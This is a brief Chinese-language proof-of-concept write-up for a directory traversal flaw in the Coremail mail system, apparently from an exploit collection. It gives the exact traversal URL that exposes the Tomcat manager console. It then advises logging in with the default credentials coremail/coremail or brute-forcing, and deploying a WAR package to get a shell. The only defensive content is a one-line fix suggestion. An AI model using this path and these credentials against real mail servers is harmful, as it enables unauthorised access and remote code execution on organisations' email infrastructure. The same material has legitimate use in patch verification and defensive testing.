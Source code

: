 # Coremail邮箱系统 目录穿越泄漏后台漏洞

## 漏洞复现

![](resource/Coremail邮箱系统目录穿越泄漏后台漏洞/media/1.png)

`POC:url+/lunkr/cache/;/;/../../manager.html`

![](resource/Coremail邮箱系统目录穿越泄漏后台漏洞/media/2.png)

访问过去会直接跳转到tomcat控制台，这里你就可以采用coremail/coremail弱口令尝试登陆，或者暴力破解。然后就是部署war包Getshell就ok了。

修复建议：对外隐藏tomcat控制台，修改默认口令。

![](resource/Coremail邮箱系统目录穿越泄漏后台漏洞/media/3.png)